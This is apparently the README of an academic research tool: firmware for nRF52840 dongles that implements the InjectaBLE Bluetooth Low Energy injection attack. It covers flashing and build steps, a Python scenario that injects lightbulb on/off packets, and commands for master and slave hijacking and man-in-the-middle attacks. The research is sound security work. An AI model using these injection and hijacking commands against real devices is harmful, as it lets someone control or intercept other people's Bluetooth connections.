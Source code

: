 # injectable-firmware
Custom firmware for PCA10059 NRF52840 Dongle (from Nordic SemiConductors) and nRF52840 MDK USB Dongle (from MakerDiary), allowing to easily eavesdrop Bluetooth Low Energy communications and perform multiple active attacks based on InjectaBLE strategy.    

We published two papers describing this new Bluetooth Low Energy attack, allowing to inject malicious traffic into an established BLE connection:

* Romain Cayre, Florent Galtier, Guillaume Auriol, Vincent Nicomette, Mohamed Kaâniche, et al.. [InjectaBLE : injection de trafic malveillant dans une connexion Bluetooth Low Energy](https://hal.laas.fr/hal-03221143). *Symposium sur la sécurité des technologies de l'information et des communications (SSTIC 2021)*, Jun 2021, Rennes (en ligne), France. **\[fr\]**
* Romain Cayre, Florent Galtier, Guillaume Auriol, Vincent Nicomette, Mohamed Kaâniche, et al.. [InjectaBLE: Injecting malicious traffic into established Bluetooth Low Energy connections](https://hal.laas.fr/hal-03193297). *IEEE/IFIP International Conference on Dependable Systems and Networks (DSN)*, Jun 2021, Taipei (virtual), Taiwan. **\[en\]**

## Flashing the pre-compiled firmware
We now provide pre-compiled HEX files in the *dist* directory, allowing you to flash the firmware without installing the toolchain (thanks to *maichai* for the suggestion !). 
* If you are using a PCA10059 dongle from Nordic SemiConductors, you need to install nrfutil and add it to your PATH variable. Then you can flash the dongle using the following command:
```
$ make send
```

* If you are using a MDK dongle from MakerDiary, you have to flash the [UF2 Bootloader](https://github.com/makerdiary/uf2-bootloader). Then you can flash the dongle using the following command:
```
$ make send PLATFORM=BOARD_MDK_DONGLE
```

The dongle should now be detected by your operating system:
```
$ lsusb
[...]
Bus 001 Device 039: ID 5a17:0000 Mirage Toolkit ButteRFly
[...]
```

## Installing the environment
* Install the latest ARM GCC Toolchain (C++ support needed), add it to your PATH variable
* Download the latest NRF5 SDK from nordic semiconductors
* Install nrfutil and add it to your PATH variable (only needed for pca10059 dongle)
* Set the SDK_ROOT environment variable to match the SDK directory

## Compiling the firmware (pca10059)
Compiling the firmware is straightforward:
```
$ make
```

Then, you can use the send command to flash it on the dongle:
```
$ make send
```

The dongle should now be detected by your operating system:
```
$ lsusb
[...]
Bus 001 Device 039: ID 5a17:0000 Mirage Toolkit ButteRFly
[...]
```


## Compiling the firmware (mdk-dongle)
Compiling the firmware is straightforward:
```
$ make PLATFORM=BOARD_MDK_DONGLE
```

Then, you can use the send command to flash it on the dongle:
```
$ make send PLATFORM=BOARD_MDK_DONGLE
```

The dongle should now be detected by your operating system:
```
$ lsusb
[...]
Bus 001 Device 039: ID 5a17:0000 Mirage Toolkit ButteRFly
[...]
```

## Injecting packets into an established connection
You can use  [Mirage framework](https://github.com/RCayre/mirage) to interact with the dongle and perform injection attacks. For example, let's imagine you want to inject packets into a Bluetooth Low Energy connection between a lightbulb and a smartphone. You know that the following packets allow to turn the bulb on or off:

* **Write command | handle = 0x0021 | data = 5510010d0a:** turn the bulb on
* **Write command | handle = 0x0021 | data = 5510000d0a:** turn the bulb off

You can write the following scenario, which will inject the "on" packet when the up arrow key is pressed and the "off" packet when the down arrow key is pressed:

```
from mirage.core import scenario
from mirage.libs import io,ble,utils

class injection_lightbulb(scenario.Scenario):

	def onStart(self):
		self.emitter = self.module.getEmitter(self.module["INTERFACE"])

	def onKey(self,key):
		if key == "up":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x01\x0d\x0a"))
		elif key == "down":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x00\x0d\x0a"))
```

1) Save this scenario as **injection_lightbulb.py** in the *scenarios* folder.
2) Run the **ble_sniff** module with the following parameters:
```
sudo ./mirage_launcher ble_sniff SNIFFING_MODE=newConnections SCENARIO=injection_lightbulb INTERFACE=butterfly0
```

3) Establish the connection between the smartphone and the lightbulb: when you are synchronized with the connection, you can simply inject the previously mentioned packets by pressing up or down arrows keys.


## Hijacking the master role (experimental)
InjectaBLE allows to perform master hijacking attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with the Slave when the Slave changes its connection parameters. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_master" ble_hijack1.INTERFACE=butterfly0 ble_hijack1.ROLE=master
```


## Hijacking the slave role (experimental)
InjectaBLE allows to perform slave hijacking attacks by injecting a LL\_TERMINATE\_IND packet and synchronize with the Master when the Slave disconnects. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_slave" ble_hijack1.INTERFACE=butterfly0 ble_hijack1.ROLE=slave
```


## Performing a MiTM attack (experimental)
InjectaBLE allows to perform MiTM attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with both legitimate devices when the Slave changes its connection parameters. You can perform this kind of attacks using **ble_mitm** module:
```
sudo ./mirage_launcher ble_mitm INTERFACE=butterfly0 MITM_STRATEGY=injection
```
